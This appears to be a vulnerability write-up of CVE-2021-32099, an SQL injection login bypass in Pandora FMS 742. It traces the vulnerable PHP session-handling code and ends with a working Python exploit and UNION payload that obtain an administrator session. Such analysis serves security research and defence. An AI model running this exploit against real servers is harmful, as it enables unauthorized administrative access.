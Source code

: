 # CVE-2021-32099

## 1. Description

A SQL injection vulnerability in the pandora_console component of Artica Pandora FMS 742 allows an unauthenticated attacker to upgrade his unprivileged session via the `/include/chart_generator.php` `session_id` parameter, leading to a login bypass.

## 2. How does PandoraFMS handle an unauthenticated access?

Let’s have a look at how user input is processed when access the endpoint:
- http://127.0.0.1:1337/pandora_console/include/chart_generator.php

<b><span style="color:red">/include/chart_generator.php</span></b>

```php
[...]
// Try to initialize session using existing php session id.
$user = new PandoraFMS\User(['phpsessionid' => $_REQUEST['session_id']]);
if (check_login(false) === false) {
    // Error handler.
    ?>
[...]
```

As you can see, the user's input `$_REQUEST['session_id']` is passed to the constructor of the class `PandoraFMS\User` without any sanitization. Let's see what happen inside this class.

<b><span style="color:red">/include/lib/User.php</span></b>

```php
class User
{
    public $idUser;
    public $sessions = [];
    public function __construct($data) {
        global $config;

        // Unset user.
        unset($config['id_usuario']);
        unset($_SESSION['id_usuario']);

        if (is_array($data) === true) {
            if (isset($data['phpsessionid']) === true) {
                $this->sessions[$data['phpsessionid']] = 1;
                $info = \db_get_row_filter(
                    'tsessions_php',
                    ['id_session' => $data['phpsessionid']]
                );

                if ($info !== false) {
                    // Process.
                    $session_data = session_decode($info['data']);
                    $this->idUser = $_SESSION['id_usuario'];

                    // Valid session.
                    return $this;
                }
                return null;
            }
            [...]
        }
    }
}
```

Inside the constructor of the class `PandoraFMS\User`, user's input then is passed to `db_get_row_filter`. At this point, the chain of backend processing functions is called in sequence to process the user's input data. Finally, it calls `session_decode($info['data'])` to validate the data returned from the database.

**Flow to construct SQL statement**

We will analyze the execution flow of the payload <b>?session_id=XXX</b>. Below is the processing flow I found after a period time of debugging:

- **The Big Picture:**

```mermaid
flowchart TD
    subgraph **Functions Call Flow**
    A((db_get_row_filter)) -- "(1)" --> B[mysql_db_get_row_filter]
    B                      -- "(2)" --> C[mysql_db_format_array_where_clause_sql]
    C                      -- "(3)" --> B
    B                      -- "(4)" --> D[mysql_db_get_row_sql]
    D                      -- "(5)" --> E[mysql_db_get_all_rows_sql]
    E                      -- "(6)" --> F[(mysql_db_process_sql)]
    end
    subgraph **Data Flow**
    AA["`
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$filter:</span></b> [id_session => <b><span style="color:red">XXX</span></b>]
    `"] -- "(1)" --> BB["`
        <b><span style="color:cyan">$where_join:</span></b> AND
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$filter:</span></b> [id_session => <b><span style="color:red">XXX</span></b>]
    `"]

    BB  -- "(2)" --> CC["`
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$where_join:</span></b> AND
        <b><span style="color:cyan">$filter:</span></b>
        WHERE id_session = '<b><span style="color:red">XXX</span></b>'
    `"]

    CC -- "(3)" --> DD[("`
        <b><span style="color:cyan">$sql:</span></b>
        <b><span style="color:green">
                SELECT * FROM tsessions_php  WHERE id_session = '<b><span style="color:red">XXX</span></b>'
        </span></b>
    `")]
    end
```

- **The root cause:** The user's input is not thoroughly sanitized during the creation of the `WHERE` clause of the SQL statement.
    - <b><span style="color:red">mysql_db_format_array_where_clause_sql:</span></b> Constructing `WHERE` clause
        ```php
        // include/db/mysql.php
        function mysql_db_format_array_where_clause_sql($values, $join='AND', $prefix=false) {
            [...]
            // At this point:
            // $values: [ id_session => "XXX" ]
            
            foreach ($values as $field => $value) {
                $query .= sprintf("%s = '%s'", $field, $value);
            }

            [...]
            return (! empty($query) ? $prefix : '').$query.$group.$order.$limit.$offset;
            // => Return: " WHERE `id_session` = 'XXX'"
        }
        ```
    - <b><span style="color:red">mysql_db_get_row_filter:</span></b> Constructing the final SQL statement
        ```php
        // include/db/mysql.php
        function mysql_db_get_row_filter($table, $filter, $fields=false, $where_join='AND', $historydb=false)
        {
            [...]
            if (is_array($filter)) {
                $filter = db_format_array_where_clause_sql($filter, $where_join, ' WHERE ');
                // After this line:
                // $filter = " WHERE `id_session` = 'XXX'"
            }
            [...]

            $sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);
            // After this line:
            // $sql = "SELECT * FROM tsessions_php  WHERE `id_session` = 'XXX'"

            return db_get_row_sql($sql, $historydb); // Now connect to DB and execute SQL statement.
        }
        ```

## 3. SQL Injection to bypass the administrator authentication

First, we need to determine how the admin's `id_session` is stored in the database:

<p align="center"> <img src="./images/db.png"></p>

Next, we try to access `include/chart_generator.php?session_id=ua74ldrjn4mmam90git1jvkcon` and debug to see what we need to become administrator:

- At this point, we can use SQL Injection to control the value of `$info` (which is return from `db_get_row_filter`)

    <p align="center"> <img src="./images/db_get_row_filter.png"></p>

- Next, the `session_decode` is called to deserialize the data inside `$info['data']`, the expected result is an array that would be stored in global variable `$_SESSION`.

    <p align="center"> <img src="./images/session_decode.png"></p>

- Finally, admin privileges are determined by checking if `$_SESSION['id_usuario'] == "admin"`.

Now we need to build a SQLi payload such that when the `db_get_row_filter` function is called, it will return the result: `$info['data'] = id_usuario|s:5:"admin";`

This can be easily achieved by using Union-based SQLi attack like this:

<p align="center"> <img src="./images/sqli.png"></p>

## 4. Proof of Concept

```python
import requests
import argparse

s = requests.Session()
def sqli_to_gain_session_admin(base_url: str) -> str:
    """ CVE-2021-32099: SQL Injection to gain session admin 
        Args:
            `base_url`: Base URL of the application (Ex: http://localhost:8080/pandora_console)
        Returns: 
            `id_session`: The session with admin privileges
    """

    # Step 1: Init Access to get a "NULL" `id_session`
    res = s.get(
        url=f"{base_url}/include/chart_generator.php",
    )
    id_session = res.cookies.get("PHPSESSID")
    print(f"[*] First get `id_session` with NULL privilege: {id_session}")

    # Step 2: SQL Injection to gain session admin
    res = s.get(
        url=f"{base_url}/include/chart_generator.php",
        params={
            "session_id": "' UNION SELECT '1',2,'id_usuario|s:5:\"admin\";"
        }
    )
    id_session = res.cookies.get("PHPSESSID")
    print(f"[*] Then perform SQL Injection to gain admin privilege...")

    # Step 3: Verify the session
    if "Pandora FMS Graph ( - )" not in res.text:
        print("[-] Failed to gain admin session")
    else:
        print("[+] Successfully gained admin session!!!")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='PoC for CVE-2021-32099')
    parser.add_argument('-u', '--url', type=str, help='Base URL of the application (Ex: http://localhost:8080/pandora_console)', required=True)
    args = parser.parse_args()

    sqli_to_gain_session_admin(args.url)
```

https://github.com/user-attachments/assets/971eb90a-c227-481e-ad6c-148bced3bdc3

## 5. References

- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
